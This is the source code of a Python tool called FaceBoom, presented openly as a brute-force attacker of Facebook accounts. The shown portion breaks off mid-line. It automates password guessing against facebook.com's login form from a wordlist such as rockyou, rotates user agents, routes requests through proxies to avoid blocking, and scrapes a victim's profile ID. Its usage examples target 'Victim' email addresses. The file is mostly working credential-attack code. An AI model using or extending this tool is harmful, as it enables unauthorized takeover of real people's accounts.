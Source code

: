 
#!/usr/bin/python

import socket, sys, os, re, random, optparse, time
if sys.version_info.major <= 2:import httplib
else:import http.client as httplib

## COLORS ###############
wi="\033[1;37m" #>>White#
rd="\033[1;31m" #>Red   #
gr="\033[1;32m" #>Green #
yl="\033[1;33m" #>Yellow#
#########################
os.system("cls||clear")
def write(text):
    sys.stdout.write(text)
    sys.stdout.flush()

versionPath = "core"+os.sep+"version.txt"

errMsg = lambda msg: write(rd+"\n["+yl+"!"+rd+"] Error: "+yl+msg+rd+ " !!!\n"+wi)

try:import requests
except ImportError:
    errMsg("[ requests ] module is missing")
    print("  [*] Please Use: 'pip install requests' to install it :)")
    sys.exit(1)

try:import mechanize
except ImportError:
    errMsg("[ mechanize ] module is missing")
    print("  [*] Please Use: 'pip install mechanize' to install it :)")
    sys.exit(1)

class FaceBoom(object):


    def __init__(self):
        self.useProxy = None
        self.br = mechanize.Browser()
        self.br.set_handle_robots(False)
        self.br._factory.is_html = True
        self.br.addheaders=[('User-agent',random.choice([
               'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) RockMelt/0.9.58.494 Chrome/11.0.696.71 Safari/534.24',
               'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36',
               'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/15.0.874.54 Safari/535.2',
               'Opera/9.80 (J2ME/MIDP; Opera Mini/9.80 (S60; SymbOS; Opera Mobi/23.348; U; en) Presto/2.5.25 Version/10.54',
               'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11',
               'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.6 (KHTML, like Gecko) Chrome/16.0.897.0 Safari/535.6',
               'Mozilla/5.0 (X11; Linux x86_64; rv:17.0) Gecko/20121202 Firefox/17.0 Iceweasel/17.0.1']))]


    @staticmethod
    def check_proxy(proxy):
          proxies = {'https':"https://"+proxy, 'http':"http://"+proxy}
          proxy_ip = proxy.split(":")[0]
          try:
            r = requests.get('https://www.wikipedia.org',proxies=proxies, timeout=5)
            if proxy_ip==r.headers['X-Client-IP']: return True
            return False
          except Exception : return False


    @staticmethod
    def cnet():
        try:
            socket.create_connection((socket.gethostbyname("www.google.com"), 80), 2)
            return True
        except socket.error:pass
        return False


    def get_profile_id(self, target_profile):
        try:
            print(gr+"\n["+wi+"*"+gr+"] geting target Profile Id... please wait"+wi)
            idre = re.compile('"entity_id":"([0-9]+)"')
            con = requests.get(target_profile).text
            idis = idre.findall(con)
            print(wi+"\n["+gr+"+"+wi+"]"+gr+" Target Profile"+wi+" ID: "+yl+idis[0]+wi)
        except IndexError:
            errMsg("Please Check Your Victim's Profile URL")
            sys.exit(1)


    def login(self,target, password):

        try:
            self.br.open("https://facebook.com")
            self.br.select_form(nr=0)
            self.br.form['email']=target
            self.br.form['pass']= password
            self.br.method ="POST"
            if self.br.submit().get_data().__contains__(b'home_icon'):return  1
            elif "checkpoint" in self.br.geturl(): return 2
            return 0
        except(KeyboardInterrupt, EOFError):
            print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
            time.sleep(1.5)
            sys.exit(1)
        except Exception as e:
            print(rd+" Error: "+yl+str(e)+wi+"\n")
            time.sleep(0.60)


    def banner(self,target,wordlist,single_passwd):

        proxystatus = gr+self.useProxy+wi+"["+gr+"ON"+wi+"]" if self.useProxy  else yl+"["+rd+"OFF"+yl+"]"
        print(gr+"""
=================================================
[---]        """+wi+"""FB-TARGET"""+gr+"""        [---]
=================================================
[---]  """+wi+"""BruteForce Facebook  """+gr+""" [---]
=================================================
[---]  """+yl+"""Created BY B14CK-KN1GH7(NAFIS FUAD)"""+gr+""" [---]
=================================================
[>] Target      :> """+wi+target+gr+"""
{}""".format("[>] Wordlist    :> "+yl+str(wordlist) if not single_passwd else "[>] Password    :> "+yl+str(single_passwd))+gr+"""
[>] ProxyStatus :> """+str(proxystatus)+wi)
        if not single_passwd:
            print(gr+"""\
================================================="""+wi+"""
[~] """+yl+"""Brute"""+rd+""" ForceATTACK: """+gr+"""Enabled """+wi+"""[~]"""+gr+"""
=================================================\n"""+wi)
        else:print("\n")


    @staticmethod
    def updateFaceBoom():
        if not os.path.isfile(versionPath):
             errMsg("Unable to check for updates: please re-clone the script to fix this problem")
             sys.exit(1)
        write("[~] Checking for updates...\n")
        conn = httplib.HTTPSConnection("raw.githubusercontent.com")
        conn.request("GET", "/Oseid/FaceBoom/master/core/version.txt")
        repoVersion = conn.getresponse().read().strip().decode()
        with open(versionPath) as vf:
            currentVersion = vf.read().strip()
        if repoVersion == currentVersion:write("  [*] The script is up to date!\n")
        else:
                print("  [+] An update has been found ::: Updating... ")
                conn.request("GET", "/Oseid/FaceBoom/master/faceboom.py")
                newCode = conn.getresponse().read().strip().decode()
                with open("faceboom.py", "w") as  faceBoomScript:
                   faceBoomScript.write(newCode)
                with open(versionPath, "w") as ver:
                     ver.write(repoVersion)
                write("  [+] Successfully updated :)\n")

parse = optparse.OptionParser(wi+"""
Usage: python ./faceboom.py [OPTIONS...]
-------------
OPTIONS:
       |
    |--------
    | -t <target email> [OR] <FACEBOOK ID>    ::> Specify target Email [OR] Target Profile ID
    |--------
    | -w <wordlist Path>                      ::> Specify Wordlist File Path
    |--------
    | -s <single password>                    ::> Specify Single Password To Check
    |--------
    | -p <Proxy IP:PORT>                      ::> Specify HTTP/S Proxy (Optional)
    |--------
    | -g <TARGET Facebook Profile URL>        ::> Specify Target Facebook Profile URL For Get HIS ID
    |--------
    | -u/--update                             ::> Update FaceBoom Script
-------------
Examples:
        |
     |--------
     | python faceboom.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python faceboom.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python faceboom.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python faceboom.py -t Victim@gmail.com -s 1234567
     |--------
     | python faceboom.py -g https://www.facebook.com/Victim_Profile
     |--------
""")


def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="target",type="string",
      help="Specify Target Email or ID")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wordlist",type="string",
      help="Specify Wordlist File ")
   parse.add_option("-s","--single","--S","--SINGLE",dest="single",type="string",
      help="Specify Single Password To Check it")
   parse.add_option("-p","-P","--proxy","--PROXY",dest="proxy",type="string",
                        help="Specify HTTP/S Proxy to be used")
   parse.add_option("-g","-G","--getid","--GETID",dest="url",type="string",
                        help="Specify TARGET FACEBOOK PROFILE URL to get his ID")
   parse.add_option("-u","-U","--update","--UPDATE", dest="update", action="store_t
